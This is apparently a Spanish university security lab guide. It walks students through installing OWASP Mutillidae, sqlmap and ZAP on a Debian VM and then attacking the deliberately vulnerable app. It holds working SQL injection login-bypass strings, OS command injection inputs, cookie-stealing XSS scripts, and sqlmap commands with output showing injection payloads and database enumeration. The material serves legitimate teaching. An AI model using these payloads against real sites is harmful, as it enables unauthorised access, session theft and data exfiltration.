

El objetivo de esta práctica es familiarizarse con las principales vulnerabilidades web analizadas en clase, viendo los efectos de su explotación de forma práctica. Para ello emplearemos un sitio web vulnerable creado específicamente para el estudio de estas vulnerabilidades así como de ataques de inyección específicos.
La práctica se realizará usando la máquina virtual de Debian 10.x, que ya se presentó en el guión de la práctica anterior. Emplearemos esta máquina virtual por el hecho de que tiene un software más actualizado, y con ello se simplifica la instalación de las herramientas extra necesarias para su realización.
En particular, se hará uso de las tres siguientes herramientas de seguridad:
OWASP Mutillidae es una herramienta gratuita y de código abierto, creada específicamente para el análisis de las vulnerabilidades web más comunes. Se trata de una aplicación web vulnerable desarrollada con PHP y JavaScript, que puede desplegarse sobre sistemas GNU/Linux o Windows que tengan instalado el entorno de PHP, y los servidores Apache y MySql. Como parte de la práctica, el estudiante deberá desplegar Mutillidae sobre la máquina virtual de Debian, instalando previamente los componentes necesarios del entorno. Algunas características relevantes de Mutillidae son las siguientes:
ZAP (Zed Attack Proxy) es una herramienta de pentesting web de código abierto que se mantiene en el contexto del proyecto OWASP (Open Web Application Security Project). Fundamentalmente, ZAP opera como un proxy que se sitúa entre el navegador utilizado por el pentester y la aplicación web a auditar. Al recibir el tráfico tanto de cliente como de servidor, ZAP permite interceptar e inspeccionar todos los mensajes de la comunicación, ofreciendo al usuario la posibilidad de alterar el contenido de estos mensajes para perpetrar un ataque o evaluar la robustez de la aplicación web. Esta herramienta cuenta con un modo automático y otro manual de escaneo de vulnerabilidades. De ZAP cabe también destacar especialmente su amplio ecosistema de plugins (addons), y la capacidad de automatizar patrones de escaneo y ataque mediante numerosos lenguajes de scripting.
La herramienta open-source SQLMap permite automatizar el proceso de detección y explotación de vulnerabilidades de SQL injection, y nos brinda la posibilidad, en ocasiones, de tomar el control de servidores de bases de datos. Si bien mediante la realización de ataques manuales de inyección SQL en una aplicación web es posible obtener cierta información relevante o burlar el proceso de login, con sqlmap es posible incluso listar las tablas de la base de datos y su contenido, acceder al sistema de archivos subyacente o incluso ejecutar comandos del sistema operativo en el servidor, todo ello mediante el uso de cadenas de ataque avanzadas especialmente construidas para gestores de bases de datos específicos.
Tras arrancar con la máquina virtual de Debian, se debe acceder al sistema con el usuario kernel y contraseña kernel. A continuación abriremos una ventana de terminal, en la cual iniciaremos una sesion como root tecleando el siguiente comando:
Nota importante: En esta práctica la instalación de LAMPP, Mutillidae, sqlmap y ZAP será lo único que ha de realizarse como root.
Procedemos en primer lugar a instalar LAMPP, es decir Apache, MySql y PHP sobre GNU/Linux, como sigue:
## Actualizamos listado de paquetes
root@debian:~# apt update
## Instalación de Apache y MySQL server
root@debian:~# apt install apache2 mysql-server (cambiado por mariadb-server)
## Instalación de PHP
root@debian:~# apt install php7.3 php-pear php7.0-mysql libapache2-mod-php7.0 php7.0-mbstring php7.0-curl A continuación reiniciaremos el servidor Apache:
Una vez hecho esto, el servidor Apache debería estar funcionando correctamente. Para comprobar su funcionamiento, se ha de abrir el navegador web Firefox dentro de la máquina virtual, y con él visitar la dirección http://localhost. Debería mostrarse la página por defecto de Apache 2:
Por simplicidad, en esta práctica accederemos al sitio web vulnerable desde dentro de la propia máquina virtual, usando el navegador web o la herramienta ZAP. No obstante es posible acceder a esta web desde el sistema anfitrion, o desde otra máquina virtual de la misma red usando la dirección IP del sistema, que es la que el comando ip a muestra como asociada a la interfaz de red ens33 (192.168.127.130, en el ejemplo mostrado a continuación):
root@debian:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo
valid_lft forever preferred_lft forever
inet6 ::1/128 scope host
valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
link/ether 00:0c:29:d6:82:57 brd ff:ff:ff:ff:ff:ff
inet 192.168.127.132/24 brd 192.168.127.255 scope global dynamic ens33
valid_lft 1707sec preferred_lft 1707sec
inet6 fe80::20c:29ff:fed6:8257/64 scope link
valid_lft forever preferred_lft foreverPara la instalación de esta aplicación web vulnerable, obtendremos en primer lugar su código fuente de github —el correspondiente a la versión 2.8.24—, como sigue:
root@debian:~# wget https://github.com/webpwnized/mutillidae/archive/2.8.24.tar.gz -O mutillidae.tgzA continuación, extraeremos el fichero comprimido, y transferiremos el directorio obtenido tras la extracción al sitio por defecto de páginas web en Apache:
root@debian:~# tar xzvf mutillidae.tgz
...
root@debian:~# mv mutillidae-2.8.24 /var/www/html/mutillidaeActo seguido procederemos a establecer la configuración de la base de datos que usará Mutillidae. Para ello, es preciso descargar un fichero de configuración por defecto y almacenarlo en el lugar establecido por la implementación del sitio web vulnerable:
root@debian:~# wget https://raw.githubusercontent.com/webpwnized/mutillidae/master/includes/database-config.inc \
-O /var/www/html/mutillidae/database-config.incConviene consultar la información almacenada en el fichero descargado, para conocer la información de configuración y conexión a la base de datos que se establecerá más adelante:
root@debian:~# cat /var/www/html/mutillidae/database-config.inc
<?php
define('DB_HOST', '127.0.0.1');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'mutillidae');
define('DB_NAME', 'mutillidae');
?>Finalmente, en un prompt de Mysql (más información a continuación) teclearemos los siguientes comandos (uno por línea), para que Mutillidae pueda conectarse a la base de datos MySqL:
use mysql;
update user set authentication_string=PASSWORD('mutillidae') where user='root';
update user set plugin='mysql_native_password' where user='root';
flush privileges;
quit;Desde el shell podemos lograr esto del siguiente modo:
root@debian:~# mysql -u root
Enter password:
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MariaDB connection id is 3
Server version: 10.1.48-MariaDB-0+deb9u1 Debian 9.13
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
MariaDB [mysql]> update user set authentication_string=PASSWORD('mutillidae') where user='root';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 1 Changed: 0 Warnings: 0
MariaDB [mysql]> update user set plugin='mysql_native_password' where user='root';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 1 Changed: 0 Warnings: 0
MariaDB [mysql]> flush privileges;
Query OK, 0 rows affected (0.00 sec)
MariaDB [mysql]> quit;
Bye
root@debian:~# Finalmente, configuraremos la base de datos de Mutillidae realizando los siguientes pasos:
Visitar la siguiente página usando el navegador web Firefox: http://localhost/mutillidae
En la página mostrada hacer clic en el enlace con el texto “setup/reset the DB” (Punto 3). Al hacer esto se mostrará un cuadro de diálogo indicando que no se han producido errores de PHP ni de MySql. Haremos clic en Aceptar:
Finalmente se mostrará la página principal de Mutillidae:
sqlmapAl igual que los componentes de LAMPP, esta herramienta también está disponible en los repositorios de paquetes de Debian. Por lo tanto, para instalarla basta hacer lo siguiente:
Para proceder a la instalación de OWASP ZAP sobre la máquina virtual de Debian basta con descargar el paquete Debian asociado a la versión 2.7 del repositorio oficial alojado en GitHub, y a continuación instalar el paquete empleando la utilidad dpkg
root@debian:~# wget https://github.com/zaproxy/zaproxy/releases/download/2.7.0/zaproxy-2.7.0.deb
...
Resolviendo github.com (github.com)... 140.82.121.4
Conectando con github.com (github.com)[140.82.121.4]:443... conectado.
Petición HTTP enviada, esperando respuesta... 302 Found
...
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 130915944 (125M) [application/octet-stream]
Grabando a: “zaproxy-2.7.0.deb”
zaproxy-2.7.0.deb 100%[====================================================================>] 124,85M 14,4MB/s en 7,9s
2022-01-15 20:23:43 (15,7 MB/s) - “zaproxy-2.7.0.deb” guardado [130915944/130915944]
root@debian:~# dpkg -i zaproxy-2.7.0.deb
Seleccionando el paquete zaproxy previamente no seleccionado.
(Leyendo la base de datos ... 358673 ficheros o directorios instalados actualmente.)
Preparando para desempaquetar zaproxy-2.7.0.deb ...
Desempaquetando zaproxy (2.7.0) ...
Configurando zaproxy (2.7.0) ...
Procesando disparadores para gnome-menus (3.31.4-3) ...
Procesando disparadores para desktop-file-utils (0.23-4) ...
Procesando disparadores para mime-support (3.62) ...
kernel@debian:~$ Instalaremos también las siguientes dependencias, para eliminar algunas advertencias al lanzar ZAP:
Finalmente, para garantizar que pueda arrancarse satisfactoriamente basta con eliminar los ficheros de configuración almacenados en el directorio del usuario kernel. Para ello debemos cerrar la sesión de root en el shell ya abierto, y proceder a eliminar los ficheros como sigue:
La práctica consta de tres partes. En la primera parte se procederá a la explotación manual de distintas vulnerabilidades interactuando directamente con el sitio web desde el navegador. En la segunda parte se hará uso de la herramienta sqlmap para acceder a información confidencial almacenada en la base de datos explotando vulnerabilidades de inyección SQL presentes en Mutillidae. Finalmente, se realizará un escaneo automatizado de vulnerabilidades (auditoría de seguridad) con OWASP ZAP.
La página principal de Mutillidae (http://localhost/mutillidae) posee un menú lateral que permite acceder a las páginas vulnerables, que están organizadas por tipo y en base a los rankings OWASP top 10 de 2017, 2013, 2010 y 2007:
En esta sección de la práctica comenzaremos realizando ataques de inyección de distintos tipos, y a continuación procederemos a perpetrar diversos ataques de Cross-Site Scripting (XSS).
El primer ataque que llevaremos a cabo será de SQL Injection. Para ello accederemos a la página Login accesible mediante el menú lateral de la siguiente forma:
En el formulario web que se muestra al acceder a la citada página, introduce como valor del campo Username la siguiente cadena, que incluye un espacio después de los dos guiones: ' or 0=0 --
A continuación introduce cualquier valor en el campo Password (incluso la cadena vacía) y haz clic en el botón Login, tras lo cual podrá hacerse login “correctamente” en el sitio web. Responde justificadamente a las siguientes preguntas:
edit-account-profile.php), haciendo clic en el icono del lápiz (esquina superior derecha). ¿Puedes obtener información sobre otras cuentas de usuario disponibles en el sitio web? ¿Cómo lo has conseguido? Pista: La URL de esa página puede alterarse de forma manual para obtener cierta información de cada usuario, considerando que cada uno tiene un ID numérico distinto.Nota importante: Antes de proseguir con el siguiente ejercicio debemos asegurarnos de que no estamos autenticados.
Realicemos ahora otro ataque de SQL injection, empleando la página User Info, a la que podemos acceder del siguiente modo:
A continuación introduce la cadena utilizada anteriormente ' or 0=0 -- como valor del campo Username, no introduzcas nada en el campo Password y haz clic en el botón Login. Responde justificadamente a las siguientes preguntas:
Ahora realizaremos otro tipo de ataque de inyección que permite la ejecución de comandos remotamente en la máquina donde se ejecuta el servidor web. Para ello, accederemos a la página “DNS Lookup” mediante el menú lateral como se muestra a continuación:
En el campo de formulario etiquetado “Hostname/IP” introduce las dos siguientes cadenas, y analiza el resultado tras hacer clic en sendas ocasiones en el botón “Lookup DNS”
; echo hello; echo hola && whoamiResponde justificadamente a las siguientes preguntas:
¿Cuál es la salida proporcionada para cada una de las cadenas? ¿Por qué crees que se genera esa salida?
Utiliza cadenas de inyección similares para obtener la información solicitada a continuación (para cada punto, además de responder a la pregunta, se ha de proporcionar la cadena usada para obtener dicha información):
Usuario propietario del proceso que ejecuta el servidor Apache
Usuario propietario del proceso que ejecuta el servidor mysql
Listado de los usuarios locales presentes en el sistema GNU Linux, incluyendo su uid
Pista: Si no consigues hacerlo a la primera, visita la página de ayuda sobre inyección de comandos del SO desde el navegador de la máquina virtual empleando la siguiente URL: http://localhost/mutillidae/hints-page-wrapper.php?level1HintIncludeFile=20
En esta sección procederemos a analizar los efectos de los ataques XSS y las diferencias entre sus dos variantes: XSS reflejado y XSS almacenado.
Comenzaremos realizando un ataque XSS reflejado, para lo cual accederemos a la página “Echo Message” accesible desde el menú de navegación de OWASP 2017 como se indica a continuación:
En el cuadro de texto etiquetado “Message” introduce las tres siguientes cadenas (tres pruebas independientes), y analiza el resultado tras hacer clic en el botón “Echo message”:
Hola<script>alert("Hola")</script><script>alert(document.cookie)</script>Responde justificadamente a las siguientes preguntas:
Para analizar los efectos de un ataque XSS almacenado accederemos a la página “Add to your Blog” desde el menú de navegación de OWASP 2017 como se indica a continuación:
Procede a crear una nueva entrada del blog cuyo contenido sea código JavaScript. Para ello introduce la siguiente cadena <script>document.write(document.cookie)</script> en el área de texto del formulario, y a continuación haz clic en el botón “Save Blog Entry”.
Responde justificadamente a las siguientes preguntas:
Borra las cookies del navegador web Firefox en Preferencias -> Privacidad & Seguridad -> Cookies y datos del sitio -> Limpiar datos… -> Limpiar
En la página principal de Mutillidae procede ahora a hacer clic en el enlace “Login/Register” (barra superior) y autentícate en el sitio web con el usuario “simba”. Para ello puedes explotar SQL injection (como en el Ejercicio 1) o emplear la contraseña “robada” como parte del Ejercicio 2.
Una vez se haya realizado la autenticación, accede a la página “View someone’s blog” usada en el ejercicio anterior, pero en este caso empleando directamente el enlace del menú de navegación lateral: OWASP 2017 -> A7 - Cross Site Scripting (XSS) -> Persistent (Second Order) -> View someone's blog. Vuelve a obtener el listado completo de entradas de blog, seleccionando la opción “Show All” en el combo, y haciendo clic en el botón “View Blog Entries”.
Responde justificadamente a las siguientes preguntas:
sqlmapEn esta parte de la práctica se hará uso combinado de las herramientas ZAP y sqlmap para obtener información confidencial de la base de datos explotando vulnerabilidades presentes en Mutillidae. Para ello, procederemos a configurar ZAP como proxy en el navegador web Firefox, lo cual requiere realizar los siguiente pasos:
Abrimos Owasp ZAP ejecutando el siguiente comando desde una ventana de terminal:
Al ser la primera vez que lanzamos ZAP en la máquina virtual, será preciso aceptar la licencia correspondiente, haciendo clic en “Accept” en el siguiente cuadro de diálogo:
En el cuadro de diálogo que se muestra elegimos la opción marcada en la siguiente imagen, y hacemos clic en Iniciar:
Al hacer esto se mostrará la ventana principal de OWASP:
Por defecto, al arrancar ZAP se inicia un servidor proxy que escucha en el puerto 8080 de localhost. Esta configuración es adecuada para la realización de la práctica, pero puede alterarse (si fuera necesario) accediendo al menú Herramientas -> Opciones y posteriormente modificando los datos presentes en el cuadro de diálogo que se muestra al seleccionar “Local Proxies” en el cuadro de diálogo de opciones:

Configuración… que se muestra en la sección General -> Configuración de Red como se indica en las dos siguientes capturas:En el cuadro de diálogo que aparece establecemos la configuración que se muestra en la siguiente imagen, y a continuación hacemos clic en “Aceptar”:
Al hacer esto, ZAP capturará todas las peticiones realizadas por el navegador web, así como las respuestas recibidas al acceder a sitios web fuera de localhost. Para poder realizar el seguimiento de peticiones y respuestas a Mutillidae accederemos al sitio web usando la dirección IP de la máquina virtual asociada a la interfaz de red ens33 (ejecutar ip a para obtener dicha dirección). Por ejemplo, si la dirección es 192.168.127.132, accederemos a la siguiente página en el navegador: http//192.168.127.132/mutillidae/
Para poder explotar las vulnerabilidades de SQL injection con sqlmap accederemos a la página “View Someones Blog” accesible mediante las entradas de menú lateral OWASP 2017 -> A1 - Injection (SQL) -> SQLMAP Practice -> View Someones Blog como se muestra en la figura:
A continuación realizaremos una petición POST seleccionando el usuario “admin” en el combo de la parte izquierda del formulario mostrado, y a continuación haciendo clic en “View Blog Entries”:
Como resultado de esta petición POST se devolverá la siguiente página:
Mientras hemos navegado por el sitio web vulnerable, ZAP ha estado registrando todas las peticiones y respuestas HTTP entre navegador y servidor web. Para visualizar el contenido de las peticiones accederemos ahora a la ventana de ZAP —que estaba minimizada— y realizaremos lo siguiente en dicha ventana:
En la barra lateral de la parte izquierda seleccionar la entrada “Sitios” y desplegarla de modo que se muestre la dirección IP de la máquina virtual. En caso de que sí se muestre (como figura en la captura presente a continuación), entonces ZAP habrá registrado correctamente el tráfico durante nuestra navegación.
En la parte Inferior seleccionar la pestaña “Historia”, y de las distintas peticiones que se han capturado hacer doble clic en la petición “POST” para seleccionarla, como se ilustra en la captura de pantalla. Nota: en vuestro caso pueden salir más peticiones que las de la figura, pero la petición POST que nos interesa se encuentra al final de la lista.
Finalmente, en la parte superior de la ventana se ha de seleccionar la pestaña “Petición”, y proceder a ajustar lo necesario el tamaño de las áreas de texto para que se muestre todo el contenido de la petición.
Ahora nos centraremos en las dos áreas de texto que aparecen en la parte central de la ventana. Éstas muestran respectivamente las cabeceras de la petición HTTP (arriba) y el cuerpo o payload de la petición POST (abajo). De la información que se muestra debemos prestar especial atención a la URL, el valor de la cookie y al cuerpo de la petición POST, que se muestran resaltados en la siguiente imagen:
La cuestión es que la página view-someones-blog-php, a la que hace referencia la URL, es vulnerable a ataques de inyección SQL. Con la información capturada con el proxy web, procederemos a continuación a repetir esta petición POST (replay attack) para perpetrar ataques automatizados de SQL injection haciendo uso de la herramienta sqlmap desde la línea de comandos. En particular, para repetir la misma petición POST en sucesivas ocasiones emplearemos las tres siguientes opciones de sqlmap:
-u <URL>: permite especificar la URL de la página vulnerable--data=<PAYLOAD>: permite especificar el contenido del formulario web que se envía mediante POST--cookie=<COOKIE>: ofrece la posibilidad de hacer las peticiones web como un usuario (autenticado o no) que ya ha visitado la página en otra ocasión. En esta práctica, emplearemos SQLMap para explotar vulnerabilidades de SQL injection presentes en un formulario que no requiere autenticación. No obstante en aquellos casos en los que el formulario en cuestión requiera autenticación, también es posible perpetrar el ataque siguiendo los mismos pasos que se muestran aquí.En primer lugar haremos que sqlmap detecte si el formulario de la página es susceptible a ataques de inyección SQL, y en caso afirmativo se mostrarán las bases de datos presentes en el servidor usado por el sitio web. Para ello usaremos la opción --dbs en combinación con las opciones presentadas anteriormente. Nótese que cada estudiante ha de construir el comando completo adecuadamente en base al contenido de la petición POST capturada con ZAP.
Por ejemplo, para los datos de la petición anterior el comando a ejecutar sería el siguiente:
$ sqlmap -u 'http://192.168.127.132/mutillidae/index.php?page=view-someones-blog.php' \
--data='author=admin&view-someones-blog-php-submit-button=View+Blog+Entries' \
--cookie='PHPSESSID=etk73sqgsejs3ob78h5g7j89a1' --dbsProcedamos entonces a ejecutar dicho comando. SQLmap detecta los parámetros de formulario y asigna valores específicos a los mismos para realizar descubrimiento del gestor de bases de datos subyacente, que el atacante o pentester desconoce. A las dos primeras preguntas que nos hace responderemos que sí (y):
kernel@debian:~$ sqlmap -u 'http://192.168.127.132/mutillidae/index.php?page=view-someones-blog.php' \
--data='author=admin&view-someones-blog-php-submit-button=View+Blog+Entries' \
--cookie='PHPSESSID=etk73sqgsejs3ob78h5g7j89a1' --dbs
___
__H__
___ ___[.]_____ ___ ___ {1.3.2#stable}
|_ -| . [.] | .'| . |
|___|_ [']_|_|_|__,| _|
|_|V |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicabl
e local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting at 12:06:58
[12:06:58] [INFO] testing connection to the target URL
[12:06:58] [INFO] testing if the target URL is stable
[12:06:59] [INFO] target URL is stable
[12:06:59] [INFO] testing if POST parameter 'author' is dynamic
[12:06:59] [WARNING] POST parameter 'author' does not appear to be dynamic
[12:06:59] [INFO] heuristic (basic) test shows that POST parameter 'author' might be injectable (possible DBMS: 'MySQL')
[12:06:59] [INFO] heuristic (XSS) test shows that POST parameter 'author' might be vulnerable to cross-site scripting attacks
[12:06:59] [INFO] testing for SQL injection on POST parameter 'author'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
...Tras realizar una serie de ataques de inyección específicos para el gestor seleccionado (MySQL), sqlmap detecta que el parámetro “user” es vulnerable, momento en el cual le indicaremos que no deseamos seguir explorando vulnerabilidades con otros parámetros.
...
[12:08:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[12:08:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[12:08:03] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[12:08:13] [INFO] POST parameter 'author' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable
[12:08:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:08:13] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[12:08:13] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:08:15] [INFO] target URL appears to be UNION injectable with 4 columns
[12:08:15] [INFO] POST parameter 'author' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'author' is vulnerable. Do you want to keep testing the others (if any)? [y/N] nAl continuación, sqlmap generará el siguiente informe, en el que se proporciona un listado de cadenas de inyección a las que el formulario web es vulnerable:
...
POST parameter 'author' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: author (POST)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
Payload: author=admin' AND 9166=9166#&view-someones-blog-php-submit-button=View Blog Entries
Type: error-based
Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
Payload: author=admin' AND (SELECT 2527 FROM(SELECT COUNT(*),CONCAT(0x7176767071,(SELECT (ELT(2527=2527,1))),0x7171626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- VtTQ&view-someones-blog-php-submit-button=View Blog Entries
Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 AND time-based blind
Payload: author=admin' AND SLEEP(5)-- oWJj&view-someones-blog-php-submit-button=View Blog Entries
Type: UNION query
Title: MySQL UNION query (random number) - 4 columns
Payload: author=admin' UNION ALL SELECT 5361,5361,CONCAT(0x7176767071,0x585862645a564d6171654179476e506d44526c59577559684356556847444f6e5a54557542546776,0x7171626a71),5361#&view-someones-blog-php-submit-button=View Blog Entries
---
...Al final del informe, se proporciona información crítica del sistema, como el sistema operativo de la máquina atacada, el servidor web y de bases de datos usado, así como otra información sensible: un listado de las bases de datos presentes en el servidor MySQL:
---
[21:47:15] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0
[21:47:15] [INFO] fetching database names
available databases [4]:
[*] information_schema
[*] mutillidae
[*] mysql
[*] performance_schema
[21:47:15] [INFO] fetched data logged to text files under '/home/kernel/.sqlmap/output/192.168.127.132'
[*] ending @ 21:47:15 /2022-01-15/
kernel@debian:~$Llegados a este punto ya es posible extraer información de las bases de datos con sqlmap. En lugar de usar la opción —dbs, otras combinaciones de opciones muy potentes (a usar junto con -u <URL> --data=<PAYLOAD> --cookie=<COOKIE> ) son las siguientes:
-D <DATABASE_NAME> --tables: lista las tablas de la base de datos cuyo nombre se pase como parámetro de la opción -D-D <DATABASE_NAME> -T <TABLE_NAME> --dump: Muestra el contenido completo de una tabla específica (argumento de -T) de la base de datos escogida (argumento de -D).Usando las combinaciones de opciones anteriormente descritas de sqlmap, contesta razonadamente a las siguientes preguntas, proporcionando además de la respuesta, el comando o comandos utilizados para obtener la información solicitada:
Para concluir la práctica, realizaremos una exploración automatizada de las vulnerabilidades del sitio web Mutillidae realizando un escaneo con OWASP ZAP. Si bien en la sección anterior utilizamos esta herramienta meramente como proxy web para capturar el tráfico que fluye entre cliente y servidor, en este caso será ZAP el que actue como cliente web.
ZAP soporta dos tipos de escaneo de vulnerabiilidades: pasivo y activo. En el escaneo pasivo, se realiza un análisis de las respuestas proporcionadas por el servidor web buscando en ellas vulnerabilidades potenciales. Una característica fundamental del escaneo pasivo es el hecho de que éste no altera los datos del sitio web. Esto impide la detección de numerosas vulnerabilidades de inyección como SQL Injection. El escaneo activo ataca el sitio web empleando técnicas conocidas para identificar vulnerabilidades. En este tipo de escaneo, sí pueden alterarse los datos del sitio web, e intentar la inyección de cadenas o scripts maliciosos.
Como nuestro objetivo es detectar automáticamente el máximo número de vulnerabilidades posibles emplearemos el escaneo activo. Para ello, en la ventana principal de ZAP (ver figura a continuación) seleccionaremos “ATTACK Mode” en el combo de la esquina superior izquierda. Con ello queda seleccionado el escaneo de tipo activo[^Si se muestra un cuadro de diálogo indicando si escanear todos los nodos alcanzables (en scope), indicaremos que no.]. A continuación —como se muestra en la siguiente figura— en la ventana principal seleccionaremos la pestaña “Inicio Rápido” (parte superior de la ventana), introduciremos la URL del sitio a auditar (http://localhost/mutillidae) en el cuadro de texto con la etiqueta “URL a atacar” y haremos clic en el botón “Atacar”:
Una vez el escaneo haya finalizado (tardará entre 10 y 20 minutos dependiendo de los recursos del equipo), ZAP cambiará la vista de la parte inferior de la pantalla activando la pestaña “Alertas” (en la figura anterior estaba activada la pestaña “Historia”). En la parte inferior izquierda de la ventana se mostrará un listado de alertas de seguridad detectadas. Para cada una de ellas, OWASP ZAP indica su nivel de riesgo —alto (color rojo), medio (color naranja) o bajo (color amarillo)—, y en la parte inferior derecha de la pantalla se proporciona información adicional, tras hacer clic en una vulnerabilidad específica de la lista en la parte izquierda.
Contesta razonadamente las siguientes preguntas: